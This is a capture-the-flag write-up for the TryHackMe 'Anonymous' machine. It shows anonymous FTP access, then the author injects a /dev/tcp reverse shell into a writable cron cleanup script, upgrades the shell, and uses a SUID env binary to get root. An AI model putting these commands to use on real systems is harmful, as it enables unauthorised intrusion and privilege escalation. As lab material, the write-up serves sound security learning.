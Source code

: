 ```yaml
---
date: 2020-05-24 15:48:48
layout: post
title: "Anonymous"
subtitle:
description: Medium rated machine from Tryhackme
image: /writeup/assets/img/anonymous/anonymous.png
optimized_image:
category: Tryhackme
tags: tryhackme ftp
author: cirius
paginate: false
---
```

<a href="https://tryhackme.com/room/anonymous">Link</a> to the the Machine on tryhackme. 

Starting with the nmap scan
```bash
nmap -T4 -p- -A 10.10.73.153
Starting Nmap 7.80 ( https://nmap.org ) at 2020-05-24 20:18 IST
Nmap scan report for 10.10.135.212
Host is up (0.23s latency).

PORT    STATE SERVICE     VERSION
21/tcp  open  ftp         vsftpd 2.0.8 or later
22/tcp  open  ssh         OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 8b:ca:21:62:1c:2b:23:fa:6b:c6:1f:a8:13:fe:1c:68 (RSA)
|   256 95:89:a4:12:e2:e6:ab:90:5d:45:19:ff:41:5f:74:ce (ECDSA)
|_  256 e1:2a:96:a4:ea:8f:68:8f:cc:74:b8:f0:28:72:70:cd (ED25519)
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 4.7.6-Ubuntu (workgroup: WORKGROUP)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 3.1 (95%), Linux 3.2 (95%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (94%), ASUS RT-N56U WAP (Linux 3.4) (93%), Linux 3.16 (93%), Linux 2.6.32 (92%), Linux 2.6.39 - 3.2 (92%), Linux 3.1 - 3.2 (92%), Linux 3.2 - 4.9 (92%), Linux 3.7 - 3.10 (92%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: Host: ANONYMOUS; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_clock-skew: mean: 1s, deviation: 2s, median: 0s
|_nbstat: NetBIOS name: ANONYMOUS, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.7.6-Ubuntu)
|   Computer name: anonymous
|   NetBIOS computer name: ANONYMOUS\x00
|   Domain name: \x00
|   FQDN: anonymous
|_  System time: 2020-05-24T14:49:01+00:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2020-05-24T14:49:00
|_  start_date: N/A

TRACEROUTE (using port 139/tcp)
HOP RTT       ADDRESS
1   375.13 ms 10.9.0.1
2   373.50 ms 10.10.73.153

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 35.89 seconds
```

Found 4 open ports.
My first approach was to check for anonymous login on ftp and yes the anonymous login was allowed.

Inside the ftp server, a directory named scripts was present. The directory contained 3 files named **clean.sh , removed_files.log , to_do.txt.
I downloaded all files. The to_do.txt listed
```text
I really need to disable the anonymous login...it's really not safe
```
The clean.sh contents
```bash
#!/bin/bash

tmp_files=0
echo $tmp_files
if [ $tmp_files=0 ]
then
        echo "Running cleanup script:  nothing to delete" >> /var/ftp/scripts/removed_files.log
else
    for LINE in $tmp_files; do
        rm -rf /tmp/$LINE && echo "$(date) | Removed file /tmp/$LINE" >> /var/ftp/scripts/removed_files.log;done
fi
```

and the removed_files.log conatained,
```text
Running cleanup script:  nothing to delete
Running cleanup script:  nothing to delete
Running cleanup script:  nothing to delete
Running cleanup script:  nothing to delete
```

So the clean.sh was running at some interval of time and then writing the removed_files.log

I added my command to get a reverse shell, next time the script executes.
```bash
#!/bin/bash

tmp_files=0
echo $tmp_files
if [ $tmp_files=0 ]
then
        echo "Running cleanup script:  nothing to delete" >> /var/ftp/scripts/removed_files.log
        bash -i >& /dev/tcp/10.9.12.192/8888 0>&1 
else
    for LINE in $tmp_files; do
        rm -rf /tmp/$LINE && echo "$(date) | Removed file /tmp/$LINE" >> /var/ftp/scripts/removed_files.log;done
fi
```
Made the permission of the local clean.sh same as on the ftp server
```bash
chmod 757 clean.sh
```
Uploaded it to the ftp server and then started listening for the connection.

After a while, got the reverse shell.
![placeholder](/writeup/assets/img/anonymous/shell.png "shell")
Made shell better by these commands.
```bash
python -c 'import pty; pty.spawn("/bin/bash")'
#Then
export TERM=xterm
#Then press ctrl+z
#type
stty raw -echo
#then
fg
#then press Enter two times.
#This makes shell with most functions as ssh shell.
```

Got the user flag

Looking for any interesting SUID binary,
```bash
find / -perm -u=s -type f 2>/dev/null
```
I found **env** binary as SUID.

Executed this command as given by GTFObins
```bash
env /bin/sh -p 
```
This gave me the root shell.
 
 Got the root flag.

